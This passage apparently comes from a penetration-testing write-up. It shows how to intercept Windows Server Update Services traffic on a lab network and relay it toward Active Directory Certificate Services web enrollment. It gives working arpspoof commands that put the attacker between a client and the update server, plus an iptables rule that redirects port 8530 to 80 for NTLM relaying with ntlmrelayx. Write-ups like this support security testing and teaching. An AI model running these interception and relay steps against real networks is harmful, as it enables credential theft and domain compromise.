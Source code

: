 ![ADCS HTTP Web enrollment](../assets/img/web_enrollment.png)


## Taking advantage of the situation

We know WSUS HTTP server uses 8530 TCP port to answer clients requests. We will intercept Windows Update traffic by using ARP-Spoof attack (we could use mitm6 or responder etc). 
There are commands used to intercept traffic between both client (192.168.56.108) and server (192.168.56.114) in two linux terminals.

In one terminal:
```bash
~ sudo arpspoof -i enp0s3 -t 192.168.56.108 192.168.56.114 
```
In another terminal:

```bash
~ sudo arpspoof -i enp0s3 -t 192.168.56.114 192.168.56.108 
```
If we are MITM-ing between Windows update server and client computer, that means we potentially will receive HTTP requests on port 8530. As we wan to relay it using impacket tool [Ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), we have to make a port redirection. We redirect all incoming traffic on port 8530 to port 80 as if we were listening on port 80, we would receive these requests. We have the choice for choice of tools, either we use IpTables or we can use  [socat](https://www.baeldung.com/linux/socat-command) for that purpose:

- Use of Iptables:

```bash
~ sudo iptables -t nat -A PREROUTING -p tcp --dport 8530 -j REDIRECT --to-ports 80
```
